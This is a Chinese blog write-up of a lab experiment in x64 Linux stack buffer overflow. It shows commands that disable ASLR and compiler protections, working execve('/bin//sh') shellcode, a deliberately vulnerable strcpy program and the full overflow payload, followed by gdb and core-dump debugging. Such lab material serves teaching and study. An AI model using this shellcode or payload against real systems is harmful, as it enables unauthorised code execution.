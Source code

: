 ```yaml
---
title: 【实验】linux x64栈溢出
date: 2017-10-11 16:42:01
categories: 二进制安全
tags:
    - linux
    - 栈溢出
---
```


这篇文章主要记录基于64位linux的栈溢出实验，在实验过程中遇到的问题，以及自己的一些思考。

## 环境配置

实验基于Ubuntu 16.04, 操作系统版本以及gcc, gdb版本信息如下:

```
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x8664 x8664 x86_64 GNU/Linux

gcc (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
```
<!-- more -->
为了更简单的方式实现栈溢出，需要关闭一些保护措施。

* ASLR(地址空间布局随机化)

  关闭ASLR：`sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"`

* Cannary

  开启Canary之后，函数开始时在ebp和临时变量之间插入一个随机值，函数结束时验证这个值。如果不相等（也就是这个值被其他值覆盖了），就会调用 _stackchk_fail函数，终止进程。对应GCC编译选项`-fno-stack-protector`解除该保护。

* NX.
  开启NX保护之后，程序的堆栈将会不可执行。对应GCC编译选项`-z execstack`解除该保护。

### GCC 与gdb版本问题

gcc从4.8开始缺省使用了-gdwarf-4选项，较旧的gdb无法识别dwarf4版本的调试信息, 参见[https://gcc.gnu.org/gcc-4.8/changes.html](https://gcc.gnu.org/gcc-4.8/changes.html)。用gcc编译程序时，使用选项-gdwarf-3来指定生成dwarf3版本的调试信息，这样旧版的gdb就可以识别调试信息了。

综合上述信息，使用gcc编译，应当使用如下命令:

```Bash
gcc -fno-stack-protector -z execstack -gdwarf-3 xxx.c -o xxx
```

## 编写shellcode

对栈溢出的利用，通常是覆盖返回地址，指向自shellcode的地址，从而执行shellcode。因此，这里先解决shellcode的编写问题。参考：[https://www.exploit-db.com/exploits/36858/](https://www.exploit-db.com/exploits/36858/)。首先编写汇编文件，验证shellcode功能，然后再提取机器码。使用`AT&T`风格编写汇编文件如下：

```Asm
.global _start
_start:
    xor %esi, %esi
    # /bin//sh
    movabs $0x68732f2f6e69622f, %rbx
    push %rsi
    push %rbx
    push %rsp
    pop %rdi
    pushq $59
    pop %rax
    xor %edx, %edx
    syscall
```
{% asset_img 001.png%}

提取机器码:

```Bash
for i in $(objdump -d tmp | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05
```

## 编写栈溢出程序

```C
#include<stdio.h>
#include<string.h>

void overflow(char* str){
    char buf[128];
    strcpy(buf, str);
}

int main(){
    char str[256]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05 AAAAAAAA";
    overflow(str);
    return 0;
}
```

上面这段程序栈溢出漏洞触发点在strcpy函数, 函数没有做边界检查，可导致栈溢出覆盖返回地址。成功利用栈溢出需要确定覆盖多少个字节可以覆盖到返回地址，另外就是确定shellcode的地址即str的首地址，让返回地址指向该地址。

```bash
$gcc -fno-stack-protector -z execstack -gdwarf-3 pwn.c -o pwn
$gdb pwn
(gdb) start
Temporary breakpoint 1, main () at pwn.c:10
10	    char str[256]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05 AAAAAAAA";
(gdb) p /x $rsp
$4 = 0x7fffffffdc10
(gdb) p /x $rbp
$5 = 0x7fffffffdd10        # rbp rsp相差0x100, 即256,正是str申请的空间大小
(gdb) p /x &str
$3 = 0x7fffffffdc10		   # str首地址
(gdb) s
11	    overflow(str);
(gdb) s
overflow (str=0x7fffffffdc10 "1\366H\273/bin//shVST_j;X1\322\017\005 AAAAAAAA")
    at pwn.c:6
6	    strcpy(buf, str);
(gdb) p /x &buf
$7 = 0x7fffffffdb80
(gdb) p /x $rbp
$8 = 0x7fffffffdc00			# 0x7fffffffdc00 - 0x7fffffffdb80 = 128，即buf申请的空间大小
```

使用的shellcode长度为23字节，为了覆盖到返回地址，需要128+8(ebp)=136字节，则除了shellcode外还需要136-23=113填充字节。另外返回地址为0x7fffffffdd10,改为小端模式`\x10\xdc\xff\xff\xff\x7f`。那么payload为

```c
char str[256]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\xdc\xff\xff\xff\x7f";
```

编译后运行程序，出现段错误，不符合预期，于是gdb调试。

```bash
$ ./pwn
段错误 (核心已转储)

(gdb) s
overflow (
    str=0x7fffffffdc10 "1\366H\273/bin//shVST_j;X1\322\017\005 ", 'A' <repeats 112 times>, "\020\334\377\377\377\177") at pwn.c:6
6	    strcpy(buf, str);
(gdb) n
7	}
(gdb) s
Warning:
Cannot insert breakpoint 0.
Cannot access memory at address 0x6e69622fbb48f631

0x00007fffffffdc10 in ?? ()
(gdb) p /x $rsp
$1 = 0x7fffffffdc10
(gdb) p /x $rbp
$2 = 0x4141414141414141
(gdb) p /x $rip
$3 = 0x7fffffffdc10
(gdb) x/32xg $rsp-0x10
0x7fffffffdc00:	0x4141414141414141	0x00007fffffffdc10
0x7fffffffdc10:	0x6e69622fbb48f631	0x5f54535668732f2f
0x7fffffffdc20:	0x20050fd231583b6a	0x4141414141414141
0x7fffffffdc30:	0x4141414141414141	0x4141414141414141
0x7fffffffdc40:	0x4141414141414141	0x4141414141414141
0x7fffffffdc50:	0x4141414141414141	0x4141414141414141
0x7fffffffdc60:	0x4141414141414141	0x4141414141414141
0x7fffffffdc70:	0x4141414141414141	0x4141414141414141
0x7fffffffdc80:	0x4141414141414141	0x4141414141414141
0x7fffffffdc90:	0x4141414141414141	0x00007fffffffdc10
0x7fffffffdca0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcb0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcc0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcd0:	0x0000000000000000	0x0000000000000000
0x7fffffffdce0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcf0:	0x0000000000000000	0x0000000000000000
```

gdb查看rip, rsp, rbp都是正确的，然而实际运行却是段错误，网上搜索一番，原来是gdb有自己的变量环境，变量的存放地址和程序实际运行会不一致，既然找到原因了，解决起来就比较容易了，只需要把返回地址改为shellcode实际存放的地址即可，填充长度无须改变，因为相对偏移不变。

一种方案是修改源程序，打印出str的首地址：`printf("%p\n", str);`;另外一种方案是利用内核转储获取真实内存地址，无须改变源码。

### GDB获取真实内存地址

首先启用内核转储：`ulimit -c unlimited`。该方法只在当前shell中生效，永久生效可以修改`/etc/profile`, 添加：`ulimit -c unlimited`。缺省情况下，内核在coredump时所产生的core文件放在与该程序相同的目录中，并且文件名固定为core。

````
gdb <程序可执行文件> <coredump转储文件>
````

```Bash
$ulimit -c unlimited
$ ./pwn
段错误 (核心已转储)
$ gdb pwn core

Type "apropos word" to search for commands related to "word"...
Reading symbols from pwn...done.
[New LWP 11347]
Core was generated by `./pwn'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00007fffffffdc10 in ?? ()
```
{% asset_img 003.png %}

从上图可以看出shellcode地址，修改payload为: 

```c
char str[256]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x40\xdc\xff\xff\xff\x7f";
```

重新编译运行。
{% asset_img 004.png %}

## 参考

* [https://www.exploit-db.com/docs/33698.pdf](https://www.exploit-db.com/docs/33698.pdf)
* [Linux 64-bit Buffer Overflow Tutorial](http://www.therabb1thole.co.uk/tutorial/linux-64-bit-buffer-overflow-tutorial/)
* [Where does Shellcode come from](http://www.therabb1thole.co.uk/tutorial/writing-linux-x86_64-bit-shellcode/)